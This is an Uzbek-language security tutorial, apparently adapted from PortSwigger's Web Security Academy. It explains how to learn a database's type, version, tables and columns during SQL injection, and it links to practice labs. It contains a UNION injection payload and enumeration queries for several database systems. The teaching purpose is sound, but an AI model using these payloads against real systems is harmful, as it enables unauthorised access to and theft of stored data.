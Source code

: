 # Ma'lumotlar bazasini tekshirish

## Ma'lumotlar bazasini SQL ineksiya hujumlariga tekshirish <a href="#malumotlar-bazasi-turi-va-versiya-sorovlari" id="malumotlar-bazasi-turi-va-versiya-sorovlari"></a>

SQL ineksiya zaifliklaridan foydalanganda ko'pincha ma'lumotlar bazasi (keyingi o'rinlarda **database** deb yuritiladi ) haqida ham ma'lumot to'plash kerak bo'ladi. Bunga database dasturiy ta'minotining turi va versiyasi, shuningdek, qanday jadvallar va ustunlar mavjudligi nuqtai nazaridan database tarkibi kiradi.

## Database turi va versiya so'rovlari <a href="#malumotlar-bazasi-turi-va-versiya-sorovlari" id="malumotlar-bazasi-turi-va-versiya-sorovlari"></a>

Turli databaselar versiyasini ko'rsatuvchi so'rovlarning har xil usullarini taklif qiladi. Siz ko'p kerak bo'ladigan so'rovlarni topish uchun turli xil so'rovlarni sinab ko'rishingiz kerak, shuning uchun siz databasen dasturiy ta'minotining turini va versiyasini aniqlashingiz kerak.

Ba'zi mashhur database turlari va versiyasini aniqlash uchun so'rovlar quyidagilar:

| Database nomi    | So'rov                    |
| :--------------- | :------------------------ |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

Masalan, siz quyidagi payload bilan UNION hujumidan foydalanishingiz mumkin:

```sql
' UNION SELECT @@version--
```

Bu database **Microsoft SQL Server** va foydalanilayotgan versiyasini ko'rsatishi mumkin:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

:::caution **Lab**
 [Oracle-da ma'lumotlar baza turini va versiyasini so'rash uchun SQL ineksiya hujumi ≫](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
:::

:::caution **Lab**
 [MySQL va Microsoft-da ma'lumotlar baza turi va versiyasini so'rash uchun SQL ineksiya hujumi ≫](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
:::

## Database tarkibini ro'yxatlash <a href="#malumotlar-bazasi-tarkibini-royxatlash" id="malumotlar-bazasi-tarkibini-royxatlash"></a>

Ko'pgina database turlari _(**Oracle**dan tashqari_) database haqida ma'lumot beruvchi **information schema** deb ataladigan to'plamga ega.

Databasedagi jadvallarni ro'yxatga olish uchun ushbu`information_schema.tables` so'rovini amalga oshirishingiz mumkin:

```sql
SELECT * FROM information_schema.tables
```

Bu quyidagicha ma'lumotlarni ko'rsatadi:

| TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | TABLE\_TYPE |
| ---------------- | ------------- | ----------- | ----------- |
| MyDatabase       | dbo           | Products    | BASE TABLE  |
| MyDatabase       | dbo           | Uses        | BASE TABLE  |
| MyDatabase       | dbo           | Feedback    | BASE TABLE  |

Bu `Products`, `Users` va `Feedback` deb nomlangan 3 ta jadval mavjudligini ko'rsatadi.

Keyin alohida jadvallardagi ustunlarni roʻyxatga olish uchun `information_schema.columns` soʻrovini bajarishingiz mumkin:&#x20;

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

**Bu quyidagicha ma'lumotlarni qaytaradi:**

| TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | COLUMN\_NAME | DATA\_TYPE |
| ---------------- | ------------- | ----------- | ------------ | ---------- |
| MyDatabase       | dbo           | Users       | UserId       | int        |
| MyDatabase       | dbo           | Users       | Username     | varchar    |
| MyDatabase       | dbo           | Users       | Password     | varchar    |

Bunda belgilangan jadvaldagi ustunlarni va har bir ustunning ma'lumotlar turini ko'rsatadi.

:::caution **Lab**
 [SQL Inceksiya hujumi, ORALE bo'lmagan ma'lumotlar bazalarida ma'lumotlar bazasi tarkib ro'yxati uchun SQLi ≫](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
:::

## Oracledagi axborot sxemasiga teng <a href="#oracledagi-axborot-sxemasiga-teng" id="oracledagi-axborot-sxemasiga-teng"></a>

Oracle-da siz bir xil ma'lumotni biroz boshqacha so'rovlar bilan olishingiz mumkin.

Siz `all_tables` so'rovi orqali jadvallarni ro'yxatga olishingiz mumkin:

`SELECT * FROM all_tables` va yana `all_tab_columns` so'rovi orqali ham ustunlarni ro'yxatga olishingiz mumkin:

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

:::caution **Lab**
[ Oracleda ma'lumotlar bazasi tarkib ro'yhati uchu SQL ineksiya hujumi ≫](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
:::
